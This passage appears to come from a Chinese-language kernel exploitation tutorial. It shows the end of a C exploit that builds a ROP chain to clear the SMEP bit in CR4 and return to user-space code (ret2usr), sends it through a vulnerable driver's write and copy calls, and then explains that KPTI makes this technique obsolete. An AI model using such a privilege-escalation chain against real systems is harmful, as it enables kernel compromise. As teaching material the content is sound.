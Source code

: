 ```c
    rop_chain[8] = canary;
    i = 10;
    rop_chain[i++] = MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET + kernel_offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = POP_RDI_RET + kernel_offset;
    rop_chain[i++] = 0xffffffffffcfffff;
    rop_chain[i++] = AND_RAX_RDI_RET + kernel_offset;
    rop_chain[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + kernel_offset;
    rop_chain[i++] = (size_t) ret2usr_attack;

    /* exploitation */

    log_info("[*] Start ret2usr attack with smep-bypass in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```

## 其他

正如我们在 `ret2usr` 一节中所言，对于开启了 KPTI 的内核而言，内核页表的用户地址空间无执行权限，因此当内核尝试执行用户空间代码时，由于对应页顶级表项没有设置可执行位，因此会直接 panic，这意味着 ret2usr 已经是过去式了， **相应地，与之伴生的 smep bypass 也便成为了过去式** 。

